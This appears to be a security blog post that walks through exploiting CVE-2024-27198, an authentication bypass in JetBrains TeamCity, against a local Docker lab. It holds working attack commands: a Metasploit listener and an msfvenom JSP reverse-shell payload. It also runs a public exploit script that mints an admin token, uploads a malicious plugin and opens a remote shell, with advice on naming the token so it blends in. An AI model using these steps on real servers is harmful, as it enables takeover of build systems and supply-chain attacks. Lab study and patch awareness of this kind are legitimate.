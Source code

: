 ```yaml
---
title: 'TeamCity Authentication Bypass Vulnerability - CVE-2024-27198'
date: '2024-3-10'
category:
  - 'security'
tags:
  - 'cve'
  - 'teamcity'
  - 'exploit'
  - 'jetbrains'
summary: Learn how to exploit CVE-2024-27198, a critical authentication bypass vulnerability found in JetBrains TeamCity's web component.
coverImage: '/static/images/teamcity.jpg'
---
```

# Understanding CVE-2024-27198: A Critical Authentication Bypass Vulnerability

## Introduction

[CVE-2024-27198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27198) is a severe security flaw with a CVSSv3 score of 9.8, indicating its critical nature. This vulnerability is present in the web component of JetBrains TeamCity and is caused by an alternate path issue, which can be exploited to bypass authentication mechanisms.

## Detailed Exploit Analysis

The vulnerability stems from a weakness in the `BaseController` class within the `web-openapi.jar` library of TeamCity. When an API endpoint receives a request appended with `.jsp`, the `BaseController` class erroneously allows the request to bypass the standard authentication process. This flaw can be exploited by an attacker to gain unauthorized administrative access to the TeamCity server. [[Source](https://www.wiz.io/blog/jetbrains-teamcity-authentication-bypass-vulnerabilities-cve-2024-27198-cve-2024-27199)]

### The Alternate Path Issue

An alternate path issue occurs when software provides an unintended route to a goal that should be protected by authentication. In the case of CVE-2024-27198, the alternate path allows attackers to manipulate the URL to access authenticated endpoints directly, bypassing the login mechanism and gaining full control over the server.

### The Impact on TeamCity

Exploiting CVE-2024-27198 grants attackers complete control over all TeamCity projects, builds, agents, and artifacts. This level of access not only compromises the integrity of the server but also opens the door to more extensive supply chain attacks, where the attacker could insert malicious code into software builds.

## Setting Up and Executing the Exploit on Kali Linux

To demonstrate the exploit, one can set up a vulnerable TeamCity environment using Docker on Kali Linux:

```bash
# Pull a vulnerable TeamCity Server docker image (version: 2023.11.3)
docker pull jetbrains/teamcity-server:2023.11.3

# Run the docker container
docker run -it -d --name teamcity -u root -p 8111:8111 jetbrains/teamcity-server:2023.11.3
```
Navigate to http://localhost:8111 and complete the setup steps to finish server setup.

#### Prepare the listener
In a separate terminal window open a listener:
```bash
# Open a listener in metasploit 
msfconsole -q -x "use multi/handler; set payload java/jsp_shell_reverse_tcp; set lhost eth0; set lport 8088; exploit"
```


#### Execute! Execute! Execute! 💥
After the server and listener are running, the exploit can be executed using the provided Python script.

Let's think about this realistically for a moment. The vulnerability allows us to bypass authentication and execute functionality via available JSPs. With that in mind, let's approach this from a stealth engagement perspective. We should first list the users on the server, obtain the userID we are interested in (preferably an admin), and then create a token for the admin with a realistic name (such as `cicdconnector`).

> It would be a safe assumption that an admin user likely exists at `userid=1` but it is good practice to check. 

So let's do that now! In a terminal run the following:

```bash
# Clone the exploit repository
git clone https://github.com/NetPenguins/CVE-2024-27198-RCE
cd CVE-2024-27198-RCE

# Create a jsp shell, I like to use https://www.revshells.com to do basic and quick executions like this. 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=eth0 LPORT=8088 -f raw -o shell.jsp

# Execute the exploit script gathering all users
python CVE-2024-27198-RCE.py -t http://localhost:8111 -g

# User the userid you found to complete the exploit into RCE
python CVE-2024-27198-RCE.py -t http://localhost:8111 -i 1 -f shell.jsp -e -n cicdconnection
```

This script will create a new access token named `cicdconnection` using the user ID we pass in. 
Then it will create a plugin `.zip` using the `shell.jsp` we generated previously and upload + activate the plugin. 
Lastly, it will launch the malicious JSP using the user's token, opening a connection to the established listener. 
In this way, we are able to leverage a user that already exists and generate an access token that looks like a plausible token this user might have generated. 
The only thing that stands out at this point (excluding the noise we are likely making on the network) is the addition of an external plugin inside the TeamCity server.


## Conclusion

CVE-2024-27198 is a critical vulnerability that requires immediate attention from administrators of TeamCity On-Premises installations. The alternate path issue at the heart of this vulnerability highlights the importance of thorough security practices in software development and the necessity of regular updates and patches.

